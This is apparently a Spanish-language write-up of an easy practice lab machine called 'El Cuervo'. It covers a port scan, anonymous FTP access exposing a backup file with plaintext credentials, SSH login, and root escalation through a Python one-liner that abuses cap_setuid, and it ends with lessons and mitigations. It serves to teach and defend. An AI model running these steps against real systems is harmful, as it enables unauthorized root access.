## Información General

| Campo                | Detalle                                                                                 |
| -------------------- | --------------------------------------------------------------------------------------- |
| Nombre de la máquina | El Cuervo                                                                               |
| Plataforma           | whoami-labs                                                                             |
| IP                   | 172.17.0.2                                                                              |
| Dificultad           | Fácil                                                                                   |
| Sistema Operativo    | Linux (Debian 13, contenedor Docker)                                                    |
| Servicios expuestos  | 21/tcp (FTP - vsftpd 3.0.5), 22/tcp (SSH - OpenSSH 10.0p2)                              |
| Vulnerabilidades     | FTP anónimo con archivo de backup expuesto, credenciales reutilizadas                   |
| Vector de escalada   | Linux capability `cap_setuid=ep` sobre `/usr/bin/python3.13`                            |

---

## Resumen del Ataque

La máquina expone dos servicios: un servidor FTP (vsftpd 3.0.5) con **login anónimo habilitado**, y SSH (OpenSSH 10.0p2). Al conectarse por FTP con credenciales anónimas, se encuentra un archivo oculto de backup (`.backup_config.old`) accesible en el directorio raíz del FTP, que contiene credenciales en texto plano de un usuario del sistema (`student`).

Con esas credenciales se obtiene acceso directo vía SSH. Una vez dentro, la enumeración de privilegios revela que `sudo` no está disponible para el usuario, por lo que se recurre a la enumeración clásica de binarios SUID y **Linux capabilities**. Mientras que los binarios SUID encontrados son todos estándar y no explotables, `getcap` revela que `/usr/bin/python3.13` tiene asignada la capability `cap_setuid=ep`, lo que permite a cualquier proceso Python cambiar su UID efectivo a 0 (root) mediante `os.setuid(0)`, logrando así una escalada de privilegios inmediata y sin necesidad de sudo ni exploits adicionales.

---

## Técnicas Usadas

- Reconocimiento de puertos y servicios con **Nmap** (`-p-`, `-sC -sV`).
- Acceso a servicio **FTP con login anónimo** (misconfiguración habitual).
- Descubrimiento y descarga de archivo de configuración de backup expuesto.
- Reutilización de credenciales de texto plano para acceso vía **SSH**.
- Enumeración de binarios **SUID** (`find / -perm -4000`).
- Enumeración de **Linux capabilities** (`getcap -r /`).
- **Escalada de privilegios** mediante abuso de la capability `cap_setuid` sobre el intérprete de Python.

---

## Desarrollo

### 1. Escaneo de puertos

```
nmap -p- -sS --min-rate 5000 -n -vvv -Pn -oN ports 172.17.0.2
```



### 2. Identificación de versiones de servicio

```
nmap -p 21,22 -sC -sV -oN allports 172.17.0.2 
```



El propio script de Nmap `ftp-anon` ya confirma que el servidor FTP **permite login anónimo**, lo que se convierte en el primer vector a explorar.
### 3. Acceso anónimo al FTP

```
ftp 172.17.0.2 
```



### 4. Enumeración de archivos (incluyendo ocultos)

```
ftp> ls -la
```



Se localiza un archivo oculto (`.backup_config.old`), que un simple `ls` sin `-a` habría pasado por alto.

### 5. Descarga y análisis del archivo de backup

```
ftp> get .backup_config.old
```

```
file backup_config.old 
```



```
cat backup_config.old
```



El archivo revela credenciales en texto plano (`student:student123`), junto con un comentario que confirma que se trata de una migración pendiente, indicio de una configuración provisional que nunca se retiró del servidor.

### 6. Acceso vía SSH

```
ssh-keygen -f '/home/kali/.ssh/known_hosts' -R '172.17.0.2'
ssh student@172.17.0.2 
```

```
student@118df8806d68:~$ whoami
```



### 7. Enumeración de usuarios y privilegios

```
student@118df8806d68:~$ grep bash /etc/passwd
```



```
student@118df8806d68:~$ sudo -l
```



`sudo` ni siquiera está instalado en el sistema, por lo que se descarta esa vía de escalada y se pasa a la enumeración clásica de binarios con permisos especiales.

### 8. Enumeración de binarios SUID

```
student@118df8806d68:~$ find / -perm -4000 -type f 2>/dev/null
```



Todos los binarios encontrados son SUID estándar del sistema, sin ninguno explotable directamente para escalada.

### 9. Enumeración de Linux Capabilities

```
student@118df8806d68:~$ getcap -r / 2>/dev/null
```



Se encuentra que `/usr/bin/python3.13` tiene asignada la capability `cap_setuid=ep`, permitiendo a cualquier proceso ejecutado con ese binario cambiar su UID efectivo a voluntad, incluyendo a root, sin necesidad de ser root previamente.

### 10. Escalada de privilegios

```
student@118df8806d68:~$ /usr/bin/python3.13 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

```
root@118df8806d68:~# whoami
```



### 11. Captura de las flags

```
root@118df8806d68:/# cd /root
root@118df8806d68:/root# cat root.txt 
```



```
root@118df8806d68:/root# cd /home
root@118df8806d68:/home# cd student/
root@118df8806d68:~# cat user.txt 
```



```
Capabilities{e1_cuervo_user}
Capabilities{e1_cuervo_root}
```

## Lecciones Aprendidas

- El login FTP anónimo sigue siendo una misconfiguración habitual y de bajo esfuerzo de explotación; siempre merece la pena revisarlo cuando se detecta un puerto 21 abierto, y el propio script `ftp-anon` de Nmap ya lo confirma en la fase de escaneo.
- Los archivos ocultos (dotfiles) en listados FTP o web son fáciles de pasar por alto con herramientas o comandos por defecto (`ls` sin `-a`); conviene automatizar o recordar siempre la enumeración con archivos ocultos incluidos.
- Los archivos de "backup" o configuración antigua (`.old`, `.bak`) con comentarios tipo "TODO: migrar" son un fuerte indicio de deuda técnica real: credenciales que deberían haberse rotado o eliminado, pero que siguen siendo válidas en el sistema en producción (o, en este caso, en el contenedor de prácticas).
- Cuando `sudo` no está disponible, la enumeración de **Linux capabilities** (`getcap -r /`) es un paso tan importante como la de binarios SUID clásicos (`find / -perm -4000`). Una capability como `cap_setuid=ep` sobre un intérprete con capacidad de ejecutar código arbitrario (Python, Perl, Ruby, etc.) es equivalente en la práctica a tener sudo total, y a menudo pasa desapercibida frente a la enumeración SUID tradicional.
- El vector de escalada aquí (`os.setuid(0)` desde Python) no depende de ningún exploit externo, sino únicamente de que el intérprete tenga la capability asignada — un recordatorio de que no toda escalada de privilegios requiere CVEs o binarios listados en GTFOBins vía SUID; las capabilities merecen su propia checklist.

---

## Medidas de Mitigación

- Deshabilitar el login anónimo en el servidor FTP (`anonymous_enable=NO` en `vsftpd.conf`) salvo que exista una necesidad de negocio explícita y controlada.
- No almacenar credenciales en texto plano en ningún archivo accesible desde servicios expuestos, incluyendo backups y archivos "temporales" u "obsoletos"; estos deben eliminarse por completo del sistema, no solo renombrarse con extensiones como `.old` o `.bak`.
- Rotar inmediatamente cualquier credencial que haya quedado expuesta, y evitar reutilizarlas entre sistemas de backup y cuentas reales del sistema operativo.
- Auditar periódicamente las capabilities asignadas en el sistema (`getcap -r /`) igual que se auditan los binarios SUID y las entradas de sudoers. Nunca asignar `cap_setuid`, `cap_setgid` o capabilities equivalentes a intérpretes de propósito general (Python, Perl, Node, etc.) salvo necesidad estrictamente justificada y aislada.
- Si un binario requiere una capability específica para su función legítima, preferir capabilities más granulares y limitadas en lugar de combinaciones amplias como `cap_setuid=ep`, y considerar contenedores o sandboxing adicional para reducir el impacto de un eventual abuso.


